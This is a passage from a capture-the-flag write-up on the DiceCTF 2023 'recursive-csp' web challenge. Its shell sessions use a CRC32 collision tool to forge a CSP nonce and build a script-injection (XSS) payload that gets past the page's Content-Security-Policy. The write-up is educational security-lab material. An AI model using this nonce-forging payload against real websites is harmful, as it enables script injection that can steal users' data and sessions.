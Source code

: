 ```py
```

**If this script found a collided hash, we could use that nonce value in our XSS payload, as the back-end will also generate the same nonce value!**

However, still no luck????

## After the CTF

After the CTF, I found that there is a [GitHub repository](https://github.com/bediger4000/crc32-file-collision-generator) that generate CRC32 hash collision:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/DiceCTF-2023/images/Pasted%20image%2020230206203749.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/DiceCTF-2023/images/Pasted%20image%2020230206203754.png)

**Let's clone that repository!**
```shell
┌[siunam♥earth]-(/opt)-[2023.02.08|17:37:33(HKT)]
└> sudo git clone https://github.com/bediger4000/crc32-file-collision-generator.git
[sudo] password for siunam: 
Cloning into 'crc32-file-collision-generator'...
```

**Then, we can create a `target.txt` for generating the nonce value, and `payload.txt` for the XSS payload:**
```shell
┌[siunam♥earth]-(~/ctf/DiceCTF-2023/Web/recursive-csp)-[2023.02.08|17:38:00(HKT)]
└> echo -n '0' > target.txt
┌[siunam♥earth]-(~/ctf/DiceCTF-2023/Web/recursive-csp)-[2023.02.08|17:41:58(HKT)]
└> /opt/crc32-file-collision-generator/crc32 target.txt                
target.txt, read 1 bytes
	CRC32: f4dbdf21
```

> Note: The `-n` flag must be used to remove the new line character (`\n`) in the end.

```shell
┌[siunam♥earth]-(~/ctf/DiceCTF-2023/Web/recursive-csp)-[2023.02.08|17:42:17(HKT)]
└> echo -n '<script nonce="f4dbdf21">alert(document.domain)</script>' > payload.txt
```

> Note: For testing purposes, we can first use `alert()` JavaScript function.

**After that, use `matchfile` to find the collided hash:**
```shell
┌[siunam♥earth]-(~/ctf/DiceCTF-2023/Web/recursive-csp)-[2023.02.08|17:43:01(HKT)]
└> /opt/crc32-file-collision-generator/matchfile target.txt payload.txt
File to match has length 1, CRC32 value f4dbdf21
File to get to match has length 56, CRC32 value 2d0aaf44
Bytes to match: 41db763a
3a 76 db 41 
:v�A
```

Next, URL encode the XSS payload **and the collided bytes**:
